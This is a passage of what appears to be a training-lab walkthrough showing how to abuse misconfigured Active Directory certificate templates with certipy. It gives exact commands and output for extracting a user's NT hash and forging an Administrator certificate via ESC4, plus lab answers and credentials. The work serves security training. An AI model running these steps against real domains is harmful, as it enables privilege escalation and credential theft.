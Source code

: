 At last, utilizing the certificate, students need to use the `auth` command of `certipy` to request a TGT for `Molly` and `Un-PAC-the-hash` within it; students will attain the NT hash `b4d7acc4ed8077f60a163499df9bc779`:

Code: shell

```shell
certipy auth -pfx molly.pfx -domain lab.local
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ certipy auth -pfx molly.pfx -domain lab.local

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: molly@lab.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'molly.ccache'
[*] Trying to retrieve NT hash for 'molly'
[*] Got hash for 'molly@lab.local': aad3b435b51404eeaad3b435b51404ee:b4d7acc4ed8077f60a163499df9bc779
```

Answer: `b4d7acc4ed8077f60a163499df9bc779`

# ESC4

## Question 3

### "Abuse the ESC4 misconfiguration to impersonate the Administrator account. What is the value of the flag file at C:\\Users\\molly\\Desktop\\flag.txt?"

From the first question, students have abused the `ESC4` to render the `ESC4` template vulnerable to `ESC1`, therefore, to abuse it and impersonate `Administrator`, students need to use the `req` command of `certipy`, specifying the template `ESC4` for the `-template` option and the `UPN` `Administrator` for the `-upn` option; students will attain a `PFX` certificate for the `Administrator` user:

Code: shell

```shell
certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template ESC4 -upn Administrator
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-dcsgrv7yfv]─[~]
└──╼ [★]$ certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template ESC4 -upn Administrator

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 70
[*] Got certificate with UPN 'Administrator@lab.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```
